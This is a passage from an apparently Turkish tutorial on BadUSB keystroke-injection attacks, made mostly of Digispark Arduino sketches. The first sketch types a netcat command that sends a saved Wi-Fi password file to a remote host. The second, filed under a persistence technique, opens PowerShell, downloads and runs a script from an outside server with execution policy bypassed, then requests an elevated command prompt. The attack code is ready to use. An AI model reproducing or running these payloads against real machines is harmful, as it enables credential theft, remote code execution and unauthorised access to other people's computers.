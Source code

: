 ```
  DigiKeyboard.print("exit");
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(500);
  DigiKeyboard.print("cmd");
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(500);
  DigiKeyboard.print("nc64.exe -w 3 192.168.1.156 8080 < wifipass.txt");
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(4000);
  DigiKeyboard.print("exit");
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(500);
  for (;;){}
}
```


### [](#header-3)Teknik 3

Kalıcılık sağlamak adına içeri çalıştırılabilir bir dosya alınıyor ve `schtasks` komutu ile zamanlanmış görev ayarlanıyor olabilir.

```
#define kbd_tr_tr
#include "DigiKeyboard.h"

void setup() {
  // put your setup code here, to run once:

}

void loop() {
  // put your main code here, to run repeatedly:
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(1500);
  DigiKeyboard.print("powershell");
  DigiKeyboard.delay(1500);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(2500);
  DigiKeyboard.print("$WebClient = New-Object System.Net.WebClient");
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(500);
  DigiKeyboard.print("$WebClient.DownloadFile('http://192.168.1.156/indir.ps1','indir.ps1')");
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1500);
  DigiKeyboard.print("powershell -Execution ByPass -File indir.ps1");
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);
  DigiKeyboard.print("Start-Process cmd.exe -ArgumentList \"/K cd $HOME\" -Verb RunAs"); // Yetki Yükseltmek için
  DigiKeyboard.delay(1500);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);
```